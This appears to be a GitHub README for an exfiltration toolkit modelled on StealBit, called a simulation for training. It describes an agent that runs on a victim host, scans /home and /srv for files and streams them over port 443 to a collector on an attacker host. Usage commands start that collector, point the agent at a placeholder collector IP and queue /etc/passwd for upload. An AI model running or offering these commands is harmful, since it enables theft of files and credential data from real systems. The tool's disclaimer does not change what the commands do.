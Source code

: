 # Laminar Exfiltration Toolkit

This repository contains a simulated Linux-based exfiltration framework for educational and training purposes only.
It demonstrates file discovery, local IPC queuing, and resumable TCP uploads to a remote collector, similar to capabilities seen in real exfiltration tools like StealBit.

> ⚠️ **For educational and authorized use only.**
> Do not use this tool on systems you do not own or lack explicit permission to operate on.


## Key Features

| File                   | Description                                                           |
| ---------------------- | --------------------------------------------------------------------- |
| `laminar.py`           | Client-side agent with file scanner, IPC queue, and TCP upload worker |
| `laminar_collector.py` | Server-side collector with resumable transfers and safe storage       |


1. **Agent (`laminar.py`)**:
   * Runs on the victim host.
   * Scans filesystem paths for files matching size and extension filters.
   * Uses Unix domain socket IPC to enqueue discovered files for exfiltration.
   * Maintains a persistent TCP connection to the collector for uploads.
   * Supports resumable transfers using offset-based protocol negotiation.
   * Allows scanning, queuing, and uploading to run in separate processes.

2. **Collector (`laminar_collector.py`)**:
   * Runs on the attacker host.
   * Listens for TCP connections from Laminar agents.
   * Validates framing protocol and prevents path traversal attacks.
   * Resumes interrupted transfers without resending completed data.
   * Writes partial files with `.part` extension until fully received.
   * Logs mapping between stored filenames (hash) and original paths.


## Usage

### 1. Start Collector (Attacker side)

```bash
python3 laminar_collector.py --bind 0.0.0.0 --port 443 --recv-dir ./recv
```

### 2. Run Agent in Server Mode (Victim side)

```bash
python3 laminar.py --mode server --remote-host <COLLECTOR_IP> --remote-port 443
```

### 3. Scan and Queue Files (Victim side)

```bash
python3 laminar.py --mode scan --roots /home /srv --min-mb 10 --max-mb 500
```

It is possible to scan a specific file: 

```bash
python3 laminar.py --mode queue --path /etc/passwd
```

## Notes 

### Resume logic
1) On HEAD, collector looks up the destination filename from the path.
2) If that file already exists (partial from a previous attempt), we get its
   size (offset) and reply with that value (OKOF + offset).
3) Sender seeks to "offset" in the source file and continues streaming DATA
   frames until "file_size" bytes total are present.
4) When file is complete, the collector expects EOF!, sends DONE, and may
   rename the temporary ".part" to ".done" (purely cosmetic).
